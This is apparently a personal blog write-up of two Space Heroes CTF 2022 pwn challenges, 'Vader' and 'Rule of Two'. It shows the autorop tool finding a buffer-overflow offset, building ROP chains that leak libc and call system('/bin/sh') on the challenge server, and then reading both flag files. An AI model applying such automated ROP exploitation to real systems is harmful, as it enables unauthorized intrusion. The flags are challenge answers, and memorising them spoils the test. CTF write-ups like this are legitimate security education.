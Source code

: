 ```yaml
---
layout: post
title:  "Vader and Rule of Two (PWN Challenge Writeup) -- Space Heroes CTF 2022"
date:   2022-04-04
image: spaceheroes.png
---
```

<p class="intro"><span class="dropcap">F</span>ITSEC Team from <a href="https://floridatech.campuslabs.com/engage/organization/fitsec">Florida Tech</a> has done an excellent job preparing this CTF. These two challenges have one thing in common and that is that they can be solved using automated tools! This is a UNINTENDED Solution.</p>


### This is a UNINTENDED Solution for this two challenges.


Challenges Description:

<figure>
        <img src="/assets/img/vader.png" alt="" />
        <figcaption>PWN Challenges</figcaption>
</figure>

If you see close, you note that both challenge has the same address, same port, and most important, the same binary!!

I will use an automated tool for CTF PWN resolution challenges called [AUTOROP](https://autorop.readthedocs.io/en/latest/)


```bash
┌──(leonuz㉿sniper)-[~[~/SpaceHeroesCTF/PWN/Vader]]
└─$ autorop ./vader 0.cloud.chals.io 20712 
[*] '/home/leonuz/CTFs/SpaceHeroesCTF/vader'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Produced pipeline: Classic(Corefile(), OpenTarget(), Puts(False, ['__libc_start_main', 'puts']), Auto(), SystemBinSh())
[*] Pipeline [1/5]: Corefile()
[+] Starting local process './vader': pid 9817
[*] Process './vader' stopped with exit code -11 (SIGSEGV) (pid 9817)
[+] Receiving all data: Done (0B)
[+] Parsing corefile...: Done
[*] '/home/leonuz/CTFs/SpaceHeroesCTF/vader'/core.9817'
    Arch:      amd64-64-little
    RIP:       0x4015f9
    RSP:       0x7ffe4eb5c7c8
    Exe:       '/home/leonuz/CTFs/SpaceHeroesCTF/vader' (0x400000)
    Fault:     0x6161616161616166
[*] Fault address @ 0x6161616161616166
[*] Offset to return address is 40
[*] Pipeline [2/5]: OpenTarget()
[+] Opening connection to 0.cloud.chals.io on port 20712: Done
[*] Pipeline [3/5]: Puts(False, ['__libc_start_main', 'puts'])
[+] Opening connection to 0.cloud.chals.io on port 20712: Done
[*] Loaded 20 cached gadgets for './vader'
[*] 0x0000:         0x401016 ret
    0x0008:         0x40165b pop rdi; ret
    0x0010:         0x404ff0 [arg0] rdi = __libc_start_main
    0x0018:         0x401030 puts
    0x0020:         0x401016 ret
    0x0028:         0x40165b pop rdi; ret
    0x0030:         0x405018 [arg0] rdi = got.puts
    0x0038:         0x401030 puts
    0x0040:         0x401016 ret
    0x0048:         0x4015b5 main()
[*] leaked __libc_start_main @ 0x7f1409a81720
[*] leaked puts @ 0x7f1409acfde0
[*] Pipeline [4/5]: Auto()
[*] Searching for libc based on leaks using libc.rip
[!] 8 matching libc's found, picking first one
[*] Downloading libc
[*] '/home/leonuz/CTFs/SpaceHeroesCTF/.autorop.libc'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Pipeline [5/5]: SystemBinSh()
[*] Loaded 191 cached gadgets for '.autorop.libc'
[*] 0x0000:         0x401016 ret
    0x0008:         0x40165b pop rdi; ret
    0x0010:   0x7f1409be2962 [arg0] rdi = 139724039530850
    0x0018:   0x7f1409aa3850 system
    0x0020:         0x401016 ret
    0x0028:         0x4015b5 main()
[*] Switching to interactive mode
MMMMMMMMMMMMMMMMMMMMMMMMMMMWXKOxdolc;',;;::llclodkOKNWMMMMMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMMWXOoc;::::::;;;clkKNXxlcccc:::::cdOXWMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMWMMNkc,;clccc;,...    .:c:. ...,;:cccc:,,ckNMWMMMMMMMMMMMMMDARK
MMMMMMMMMMMMMMMMMMXx;;lol:'            .'.           .':loc',xNMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMW0:;dxlcc'            .dO;             .::lxo':0MMMMMMMMMMMMS1D3
MMMMMMMMMMMMMMMWk':Ol;x0c           ';oKK: .            cOo,dk;,OMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMO':Ol:0Xc            l0OXNc.l'            cKO;o0;,KMMMMMMMMMMMMOF
MMMMMMMMMMMMMMX:'Oo:KMd             o0ONWc'x,            .xM0:xk.lWMMMMMMMMMMMMM
MMMMMMMMMMMMMMx.okcOMMk.            o0OWMl'x;            .xMMklOc'OMMMMMMMMMMTH3
MMMMMMMMMMMMMWc'xldWMMWKx'          oOkNMo,x;          'oONMMWdod.oMMMMMMMMMMMMM
MMMMMMMMMMMMMK;:dl0MMMMMXc          lOxNMo'd;          lWMMMMMOld;:NMMMMMMMFORC3
MMMMMMMMMMMMMO':ldWMMMMWo           ckxNMd,d;          .kMMMMMNlc;,KMMMMMMMMMMMM
MMMMMMMMMMMMMk';cxMMMMMWOl:,.       cxxNMx;d;       .,;l0MMMMMWdc;'0MMMMMMMMMMMM
MMMMMMMMMMMMMx',cOMMMWXOxoc;.       cxxNMkcx:       .cdkOXWMMMMd:;'0MMMMMMMMMMMM
MMMMMMMMMMMMMx';;l0xl,.    .       ,0xdWMOcOx.           .,lkXWd:;'OMMMMMMMMMMMM
MMMMMMMMMMMMMd.ld:'    .',;::ccc:;,kWxxWMOlONo',:cc::,'...   'ood:'OMMMMMMMMMMMM
MMMMMMMMMMMMWl.xK:            .';coOXo:xxo:kKkl:;'.           .oXl.OMMMMMMMMMMMM
MMMMMMMMMMMM0';d'       .......',;;''.    ..'',;,'......        lo.lWMMMMMMMMMMM
MMMMMMMMMMMX:,l'        ..      .',:;lo. ;d:;:,..     ..         c:.xWMMMMMMMMMM
MMMMMMMMMMNc,o,                     '0XxoOWd.                    .l:,0MMMMMMMMMM
MMMMMMMMMWd,o;                      .xMNXWWc                      .o::XMMMMMMMMM
MMMMMMMMMk,oc                    .. .kXkdONc ..                    'd;oWMMMMMMMM
MMMMMMMM0;lo.         .;:,'....  'cxxo;'''cxxo:. ......';'          :x:xWMMMMMMM
MMMMMMMK:lx.           'xNNXXXKd;;::,.,l:..':c;,;xKKKXX0l.           oxcOMMMMMMM
MMMMMMXcck,         ..   ,cloool:. .lc,,'.cx, .';looooc.             .kxlKMMMMMM
MMMMMWoc0c      .'. .cdll;..',;lkOxxl:xOOxclddkkl:,''.';:cl'  ..      :KddNMMMMM
MMMMWxc0x.       :o; .xWWKkdodkKWMMKlxWMMMKdOMMWXkdoloONMXc .cc.      .dXdxWMMMM
MMMMOcOK;         'xd.'0MMMMMMMXk0Xc'dKXXKO:,0KkKWMMMMMMWo.;xl.        ,0XxOWMMM
MMM0lkNo           .xO;cXWWMWXd:dx; ;d;,:l:  ;xd:l0WMMMWx,oO;           oWKx0MMM
MMKokW0'            .dKdOWMNx;ckd:. lK,.cOd..lcdO:'oXMMKokO,            .OWKkXMM
MXdxN0;              .kWNWXc.,d;.do lK,.:kd.,0l.;o,.:KWNNK,              ;KW0kNM
NxdOc.                ,0MMd..;l''Oo lK,.;kd.;Ko .,,. lWMXc                'xXOOW
xd0d.                  ;KMO,.c0ocXk;xXocxK0cdNOcol'''dWWd.                 .o0kO
,xWX:                   :XXc.:oddxxxxxxddxxxxkkOko;.:KNd.                  'kN0l
.,dOkdoc:,'..            .'..,lxkox0OO0kxOOxOOddxl,..,,.              ..,:lkKOl.
x,...',;:cc::;,,'''...        .,;cdO0KKKXXKkdo:,,'.        ...'',,,,;;clllc;'..;
MNKOxdoolcc::;;;;. ..             ..,;:clc;..              ...,;;;,,'',;;:clox0N
MMMMMMMMMMMMMMMMW0;                                          'kKXXNNNWWMMMMMMMMM
MMMMMMMMMMMMMMMMMMNd,..          ........                .. .kWMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMWKxl;..       'okOOko:,..     ..  ....';lKWMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMMXkdc'....   .,cc:,,'..  .'o0Oo:;:cokXMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMMMMWXkdoc;''''',,;;:::::::ccllclx0NMMMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMMMMMMMMWXkol:;,'.''''....,cokKWMMMMMMMMMMMMMMMMMMMMMMMMMMMM


 When I left you, I was but the learner. Now I am the master >>> $ 

 ```

At this point, we can see the prompt `$` which indicate that the machine has been pwn. Let's list the directory looking for the flags. 


```bash
 When I left you, I was but the learner. Now I am the master >>> $ ls
-
banner_fail
bin
boot
dev
etc
flag.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
service.conf
sith.txt
srv
sys
tmp
usr
vader
var
wrapper
$ cat flag.txt
shctf{th3r3-1s-n0-try}
$ cat sith.txt
shctf{W1th0ut-str1f3-ur-v1ctory-has-no-m3an1ng}
$ 
[*] Interrupted
[*] Closed connection to 0.cloud.chals.io port 20712
[*] Closed connection to 0.cloud.chals.io port 20712
                                                                                                                                                                                            
```
<center>flag for "Vader" Challenge is inside of flag.txt and is: **shctf{th3r3-1s-n0-try}**</center>
<center>flag for "Rule of two" Challenge is inside of sith.txt and is **shctf{W1th0ut-str1f3-ur-v1ctory-has-no-m3an1ng}**</center>

---

#### More Info about automatic tools for PWN here 
- [AUTOROP](https://github.com/mariuszskon/autorop)
- [ZERATOOL](https://github.com/ChrisTheCoolHut/Zeratool)

- - -
### Final Notes.

An excellent engineering professor taught me that **"As an engineers we can't know ALL the answers, but we should know how to look for them"**.

- - -

Thanks [FITSEC Team](https://floridatech.campuslabs.com/engage/organization/fitsec) for the excellent CTF.

For fun and knowledge, always think out of the box! :)


